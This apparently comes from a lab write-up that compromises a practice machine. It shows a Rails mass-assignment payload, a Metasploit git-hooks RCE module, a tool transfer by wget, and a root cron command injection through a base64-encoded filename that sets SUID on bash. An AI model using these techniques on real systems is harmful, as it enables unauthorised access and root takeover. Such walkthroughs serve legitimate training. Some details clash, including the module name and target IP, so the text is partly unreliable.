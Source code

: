 ## Enumeration

We start the enumeration process with an `nmap` scan:

```
┌──(kali㉿kali)-[~]
└─$ nmap  192.168.58.126  -vv
Starting Nmap 7.80 ( https://nmap.org ) at 2022-08-20 18:21 CEST
Initiating ARP Ping Scan at 18:21
Scanning assignment.pg (192.168.58.126) [1 port]
Completed ARP Ping Scan at 18:21, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 18:21
Scanning assignment.pg (192.168.58.126) [65535 ports]
Discovered open port 80/tcp on 192.168.58.126
Discovered open port 22/tcp on 192.168.58.126
Completed SYN Stealth Scan at 18:21, 0.81s elapsed (65535 total ports)
Nmap scan report for assignment.pg (192.168.58.126)
Host is up, received arp-response (0.00011s latency).
Scanned at 2022-05-20 18:21:39 CEST for 1s
Not shown: 65533 closed ports
Reason: 65533 resets
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 08:00:27:02:A5:DF (Oracle VirtualBox virtual NIC)
```

The output reveals a webserver running on port `80`. Visual inspection shows a note taking page:

![home](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Practice_132_image_1_KJ3W18Nd.png)

home

Using curl , we see that the site tries to set `_simple_rails_session` so we can assume it is built on the Ruby on Rails framework.

```
┌──(kali㉿kali)-[~]
└─$ curl -I 192.168.58.126
HTTP/1.1 200 OK
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none
Referrer-Policy: strict-origin-when-cross-origin
Link: </packs/js/application-0a98d1e1abc2fd44621c.js>; rel=preload; as=script; nopush
Content-Type: text/html; charset=utf-8
Vary: Accept
ETag: W/"0006d5403546a154e99c7ccec35b0394"
Cache-Control: max-age=0, private, must-revalidate
Set-Cookie: _simple_rails_session=dE2IUpzYPPgTKMgrZPFQwd7IWq2YBHCufeO7J7jIjoxotC3%2BosTFGGgt8ojIdhuA2quf5%2BfCvTBNTD70L%2B15EVsPbzxfTXFT4ACIlInN%2FiYu8XuBEgIZfL9IQcUY2HtGsF%2BjQZgiKHZnLJXUkHazFzyBJ6XJMM86C2CZtOegx%2F%2FCGn27MsW5kWRHa39O05qwF9ZDNWgGgUTKFA0gTPDy2Ra81UjfCzfQRIuKI5XvrByUMIZUkSaAq%2B6Hf339zQNRkkfZHIPqUfB%2F8AQxfJIguVHmfsNSgFWTl9qCdLc%3D--QI%2FcVEoc3n6gJu%2BT--52XyBUw3Z4tEY7r406c%2FRA%3D%3D; path=/; HttpOnly; SameSite=Lax
```

We next create an account and log into the application, to explore more functionality.

![reg](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Practice_132_image_2_Xn7K3DrW.png.png)

reg

We are provided with a couple of functions. We first checkout the Members link, which leads us to the registered users:

![users](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Practice_132_image_3_KmN81LeR.png.png)

users

We saw jane in the contact form on the landing page, so we can assume she created the application. We click on the link and notice her role differs from the others:

![role](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Practice_132_image_4_KlQe2RK1.png.png)

role

In contrast our profile looks like this:

![role2](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Practice_132_image_5_L4RaVc31.png)

role2

We next create a note, and see that we can access it at http://assignment.pg/notes/5, so we conclude that there are 4 other notes, which might contain sensitive information. However when trying to access these, we get an error:

![error](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Practice_132_image_6_LP3xQ8En.png)

error

MVC frameworks allow developers to automatically bind request parameters into attributes of objects to ease the development. This can sometimes cause harm if the input of the user is not validated properly. In this case we see a third attribute of a user called `role` that we can escalate access by setting `role` to `owner`.

For this, we send the following payload when trying to register a user:

```
authenticity_token=oPR93X4UzlLdlPeg_Aek9v3XDDJLLoL3hXS8pHLwzOPz8ER61j8nzjESjr4Tsq-_VGRhZBVCZ9TSr9VZqIe5YQ&user[username]=forged_owner&user[role]=owner&user[password]=forged_owner&user[password_confirmation]=forged_owner&button=
```

Checking the users page, we see that we are now owner.

![owner](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Practice_132_image_7_Ka3xFK9Q.png.png)

owner

We can also access the 4 notes now. Checking all out, we get credentials from note 1:

![creds](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Practice_132_image_9_MnC5H7Lq.png)

creds

With these, we can authenticate to `gogs` where we have admin rights, and see that git hooks are enabled.

After doing some research online we see that we are able to exploit gog's git hooks functionality for our initial foothold.

We can use the msf module `multi/http/gogs_git_hooks_rce` for this task, which should give us a shell as jane back.

```
msf6 exploit(multi/http/gitea_git_hooks_rce) > options

Module options (exploit/multi/http/gitea_git_hooks_rce):

   Name       Current Setting            Required  Description
   ----       ---------------            --------  -----------
   PASSWORD   svc-dev2022@@@!;P;4SSw0Rd  yes       Password to use
   Proxies                               no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.16.201.52              yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8000                       yes       The target port (TCP)
   SSL        false                      no        Negotiate SSL/TLS for outgoing connections
   SSLCert                               no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                          yes       Base path
   URIPATH                               no        The URI to use for this exploit (default is random)
   USERNAME   jane                       yes       Username to authenticate with
   VHOST                                 no        HTTP server virtual host
```

# Privilege Esclation

We can use a tool called [`pspy`](https://github.com/DominicBreuker/pspy) and run it in order to monitor processes.

We begin by downloading `pspy` to our attack machine.

```
┌──(kali㉿kali)-[~]
└─$ git clone https://github.com/DominicBreuker/pspy.git  
Cloning into 'pspy'...
remote: Enumerating objects: 1109, done.
remote: Counting objects: 100% (83/83), done.
remote: Compressing objects: 100% (52/52), done.
remote: Total 1109 (delta 37), reused 59 (delta 28), pack-reused 1026
Receiving objects: 100% (1109/1109), 9.29 MiB | 4.19 MiB/s, done.
Resolving deltas: 100% (489/489), done.
```

Now we set up a webserver on our attack machine.

```
──(kali㉿kali)-[/pspy]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.120.79 - - [07/Jun/2022 12:55:23] "GET /pspy HTTP/1.1" 200 -
```

We transfer `pspy` onto the target machine with the following command

```
jane@assignment:/tmp$ wget http://192.168.118.25/pspy
wget http://192.168.118.25/pspy
--2022-16-08 19:55:22--  http://192.168.118.25/pspy
Connecting to 192.168.118.25:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4532312 (4.3M) [application/octet-stream]
Saving to: 'pspy'
```

Running `pspy` we see a cron running as root.

```
....
2022/08/22 18:33:42 CMD: UID=0    PID=1      | /sbin/init maybe-ubiquity 
2022/08/22 18:34:01 CMD: UID=0    PID=2146   | /usr/sbin/CRON -f 
2022/08/22 18:34:01 CMD: UID=0    PID=2148   | /bin/bash /usr/bin/clean-tmp.sh 
2022/08/22 18:34:01 CMD: UID=0    PID=2147   | /bin/sh -c /bin/bash /usr/bin/clean-tmp.sh 
2022/08/22 18:34:01 CMD: UID=0    PID=2149   | /bin/bash /usr/bin/clean-tmp.sh 
...
```

We identify a command injection in the way the script uses `find`.

```
jane@assignment:~$ cat /usr/bin/clean-tmp.sh 
#! /bin/bash
find /dev/shm -type f -exec sh -c 'rm {}' \;
```

Reading the manpage of `find`, we notice:

```
-exec command ;
              Execute command; true if 0 status is returned.  All following arguments to find are taken to be arguments to the command until an argument consisting of `;' is encountered.
              The  string  `{}'  is replaced by the current file name being processed everywhere it occurs in the arguments to the command, not just in arguments where it is alone, as in
              some versions of find.  Both of these constructions might need to be escaped (with a `\') or quoted to protect them from expansion by the shell.  See the  EXAMPLES  section
              for  examples  of  the use of the -exec option.  The specified command is run once for each matched file.  The command is executed in the starting directory.  There are un‐
              avoidable security problems surrounding use of the -exec action; you should use the -execdir option instead.
```

We send the following command.

```
jane@assignment:/tmp$ touch /dev/shm/'$(echo -n Y2htb2QgdStzIC9iaW4vYmFzaA==|base64 -d|bash)'
```

Waiting a few seconds, we can get root through `bash -p`.

```
jane@assignment:/tmp$ bash -p
bash-5.0# whoami
root
```